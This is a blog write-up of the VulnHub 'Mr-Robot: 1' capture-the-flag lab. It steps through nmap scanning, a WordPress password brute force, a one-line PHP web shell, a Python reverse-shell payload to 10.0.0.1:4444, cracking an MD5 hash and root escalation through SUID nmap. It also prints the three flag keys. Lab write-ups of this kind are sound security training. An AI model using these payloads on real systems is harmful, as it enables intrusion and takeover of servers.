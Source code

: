 ```yaml
---
layout: post
title:	"Mr-Robot: 1 Writeup"
date:	2016-12-21 21:00:00
categories:
    - blog
tags:
    - vulnhub
---
```


Hello Friend,

This is my writeup for the CTF [Mr-Robot 1](http://www.vulnhub.com/entry/mr-robot-1,151/).

I ran nmap:

~~~
nmap -sT -sV -Pn 192.168.1.17
~~~

* -sT: full TCP scan (complete Three-Way Handshake)
* -sV: version of the services
* -Pn: skip host discovery (I had problems with ICMP echo request packets)

~~~
Starting Nmap 7.25BETA2 ( https://nmap.org ) at 2016-10-22 18:40 CEST
Nmap scan report for linux.homenet.telecomitalia.it (192.168.1.17)
Host is up (0.0014s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp closed ssh
80/tcp open http Apache httpd
443/tcp open ssl/http Apache httpd
~~~

I ran another nmap with “-p 1-65535” parameters on all ports, but nothing changed.

The website was the same on port 80 and 443:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-21-mr-robot-1-writeup/img1.png)

It was an animated console on a fsociety machine 😛

But… look at this:

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-21-mr-robot-1-writeup/img2.png)

First Key :

~~~
073403c8a58a1f80d943455fb30724b9
~~~

There was a wordpress blog on the website. I tried to enumerate users with wpscan, but it didn’t work. After some attempts, I found that ‘eliot’ was a valid username. I ran wpscan to bruteforce the wordpress login for user ‘eliot’ with the dictionary file ‘fsocity.dic’. The password was:

~~~
ER28–0652
~~~

After logged in, I uploaded a php shell:

~~~
<?php passthru($_GET[“cmd”]); ?>
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2016/2016-12-21-mr-robot-1-writeup/img3.png)

I got a reverse shell on netcat by using this payload:

~~~
http://192.168.1.17/wp-content/uploads/2016/10/shell.php?cmd=python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect((“10.0.0.1”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
~~~

I spawned a TTY shell:

~~~
/bin/sh: 0: can’t access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ python -c “import pty;pty.spawn(‘/bin/bash’);”
daemon@linux:/opt/bitnami/apps/wordpress/htdocs/wp-content/uploads/2016/10$
~~~

Ok I found this:

~~~
daemon@linux:/home/robot$ ls -l
ls -l
total 8
-r——– 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r–r– 1 robot robot 39 Nov 13  2015 password.raw-md5
~~~

I didn’t have permission to read the second key but I found something in the password.raw-md5 file:

~~~
root:c3fcd3d76192e4007dfb496cca67e13b
~~~

I used Crack Station and I got the second key:

~~~
root:abcdefghijklmnopqrstuvwxyz

daemon@linux:/home/robot$ su – robot
su – robot
Password: abcdefghijklmnopqrstuvwxyz
$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
~~~

After some local enumeration, I found nmap with SUID set to root on the system. This [paper](http://www.exploit-db.com/papers/18168/) explains how to get a root shell:

~~~
robot@linux:/usr/local/bin$ ls -l
ls -l
total 496
-rwsr-xr-x 1 root root 504736 Nov 13  2015 nmap
robot@linux:/usr/local/bin$ nmap –interactive
nmap –interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode — press h <enter> for help
nmap> ! id
! id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> ! ls /root/
! ls /root/
firstboot_done    key-3-of-3.txt
waiting to reap child : No child processes
nmap> ! cat /root/key-3-of-3.txt
! cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
~~~

Goodbye friend.